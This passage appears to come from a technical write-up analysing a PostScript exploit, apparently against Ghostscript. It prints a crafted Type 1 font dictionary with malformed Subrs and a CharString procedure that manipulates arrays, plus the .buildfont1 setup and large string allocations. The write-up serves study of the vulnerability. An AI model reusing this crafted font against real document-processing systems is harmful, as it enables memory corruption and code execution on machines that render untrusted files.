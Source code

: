Is another dictionary that contains 2 elements. Both seem to be unimportant.

#### Full Font Definition Code
```postscript
/Myfont
<<
    /FontName /Myfont
    /FontType 1
    /FontMatrix [1 0 0 1 0 0]
    /Private << /lenIV -1 /Subrs [ <0E> ] >>
    /Decoding 0
    /Encoding [ /cs0 /cs1 /cs2 ]
    /CharStrings <<
        /.notdef <0E>
        /cs0 { TEXT 0 1 put /TARGET 312500 array def TARGET REFIDX OBJARR put }
        /cs1 <0E>
        /cs2 { DONE }
    >>
    /WeightVector [1]
    /$Blend {}
    /FontInfo <<
        /BlendAxisTypes [ /foo ]
        /BlendDesignPositions [[1]]
        /BlendDesignMap [[[1]]]
        /GlyphNames2Unicode << >>
    >>
    /Blend <<
        /FontBBox [[1]]
        /Private << >>
    >>
>>
```

#### Font Usage

After defining the font, the next step is to use it. In order to do this, the font needs to be built and set as the current font.

```postscript
.buildfont1
/FONT exch def
/FONTNAME exch def

FONT setfont
```

The `.buildfont1` operator takes a font dictionary from the stack and constructs a font object. The constructed font object is then stored in the variable `FONT`, and its name is stored in `FONTNAME`. Finally, `FONT` is set as the current font using the `setfont` operator.

After setting the font, the exploit author does more setup in /MAIN. The next lines initializes three strings:

```postscript
/TEXT 625000 string def
/SOURCE2 4000002 string def
/SOURCE1 4000002 string def
```
